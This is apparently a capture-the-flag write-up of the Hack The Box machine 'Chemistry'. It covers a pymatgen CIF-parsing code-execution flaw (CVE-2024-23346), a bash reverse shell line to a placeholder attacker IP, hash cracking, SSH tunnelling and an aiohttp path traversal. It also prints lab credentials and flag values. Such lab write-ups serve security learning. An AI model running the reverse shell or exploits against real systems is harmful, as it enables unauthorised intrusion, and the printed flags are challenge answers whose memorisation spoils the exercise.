







# Hack The Box — Chemistry


---

# Machine Information

| Name      | Difficulty | Platform     | OS    |
| --------- | ---------- | ------------ | ----- |
| Chemistry | Easy       | Hack The Box | Linux |

---

# Attack Path

```
1. Nmap scan reveals SSH and HTTP service
2. Web application allows CIF file upload
3. Malicious CIF file exploits pymatgen RCE
4. Reverse shell obtained on the server
5. Database file discovered containing password hash
6. Credentials cracked and SSH access gained as rosa
7. Internal service discovered on localhost
8. Path traversal vulnerability exploited
9. Root flag retrieved
```

---

# Reconnaissance

Initial enumeration was performed with **Nmap**.

```
nmap -sC -sV -A 10.10.11.38
```



The scan revealed:

| Port | Service                         |
| ---- | ------------------------------- |
| 22   | SSH                             |
| 5000 | HTTP (Python Flask application) |

The web application hosted a **CIF Analyzer** used to upload and analyze crystallographic files.

---

# Web Enumeration

Visiting the web application revealed a login and registration system.

After registering an account, the dashboard allowed users to **upload CIF files**.



---

# Remote Code Execution

The application uses the **pymatgen library** to process CIF files.

This library contains a vulnerability where **eval() is used to process user input**, allowing arbitrary code execution when parsing malicious CIF files. ([Medium][1])

A malicious CIF file was created containing a reverse shell payload.

Example payload snippet:

```
system("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1'")
```

After uploading the file and triggering the parser, a reverse shell was obtained.

---

# Credential Discovery

While exploring the file system, a database file was discovered containing stored credentials.

```
database.db
```



After extracting and cracking the hash, the following credentials were obtained:




```
User: rosa
Password: unicorniosrosados
```

---

# Initial Access

Using the discovered credentials, SSH access was obtained.

```
ssh rosa@10.10.11.38
```

The **user flag** was located in the home directory.

```
cat user.txt
```



---

# Privilege Escalation

Running `netstat` revealed an internal service running on **localhost:8080**.

```
netstat -nltp
```



Using SSH port forwarding:

```
ssh -L 8888:127.0.0.1:8080 rosa@10.10.11.38
```

The internal application was then accessed from the attacker machine.

The service contained a **path traversal vulnerability**, allowing arbitrary file reads.

This was exploited to retrieve the **root flag**.

---

# Root Access

After exploiting the vulnerability, the root flag was obtained.



---

# Flags

### User Flag

```
584e2c0f8f541ed3cd0668cbac6fb292
```

### Root Flag

```
f4cad6dda7ee09c56b082148357d58db
```

---

# Vulnerabilities Identified

### Remote Code Execution — pymatgen (CVE-2024-23346)

The application used the pymatgen library to parse CIF files.
The library insecurely processes input using `eval()`, enabling arbitrary code execution when parsing malicious files. ([Hack The Box][2])

---

### Path Traversal — AioHTTP

An internal web application allowed directory traversal, enabling access to sensitive files.

Impact:

* Arbitrary file read
* Exposure of sensitive system files

---

# Tools Used

* Nmap
* Netcat
* SSH
* Hash cracking tools
* Burp Suite

---

# Key Takeaways

This machine demonstrates:

* File upload vulnerabilities
* Exploitation of insecure libraries
* Reverse shell via malicious file
* Credential extraction from databases
* Exploiting internal services
* Directory traversal for privilege escalation

---

# Author

GitHub: https://github.com/ninjaa-exe
